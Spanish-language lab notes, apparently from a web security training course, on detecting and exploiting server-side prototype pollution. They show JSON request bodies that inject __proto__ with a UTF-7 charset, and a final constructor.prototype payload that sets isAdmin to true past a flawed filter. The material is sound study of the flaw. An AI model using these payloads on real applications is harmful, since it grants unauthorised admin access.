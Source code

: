 ```jsx
{
"address_line_1":"Wiener HQ",
"address_line_2":"One Wiener Way",
"city":"Wienerville",
"postcode":"BU1 1RP",
"country":"+AGYAbwBv-",
"sessionId":"NHwQLxaDVcQnOlQZwYPIJW47juDC4t7E"
}
```

Sino devuelve en la respuesta de country **foo** entonces no admite la encoding UTF-7 y podriamos hacer lo que dije del content type, de lo contrario si y entonces no sería la forma de explotación, en este caso si no devuelve foo sino la codificación, entonces voy a inyectarle el content-type con la property `__proto__`

```jsx
{
"address_line_1":"Wiener HQ",
"address_line_2":"One Wiener Way",
"city":"Wienerville",
"postcode":"BU1 1RP",
"country":"Colombia",
"__proto__":{ 
		"content-type": "application/json; charset=utf-7" 
	},
"sessionId":"NHwQLxaDVcQnOlQZwYPIJW47juDC4t7E"
}
```

![[Pasted image 20250219195018.png]]

Y en la otra ventana del repeater mando la prueba de nuevo a ver si está vez si me devuelve `foo`

![[Pasted image 20250219195032.png]]

Y efectivamente si, con esto ya se confirma la vulnerabilidad prototype pollution de tipo `Charset Anidation` con el UTF-7 **Content-type**

### LAB:  Prototype Pollution Bypassing flawed input filters

* No acepta `__proto__` ni nada de eso, toca con constructor y proto al tiempo. 
* Este endpoint que se usa para explotar la vuln es `POST /my-account/change-address HTTP/2`

```js
//PAYLOAD FINAL -> 
{
"constructor":{
	"prototype":{
		"isAdmin":true
		}
	},
}
```
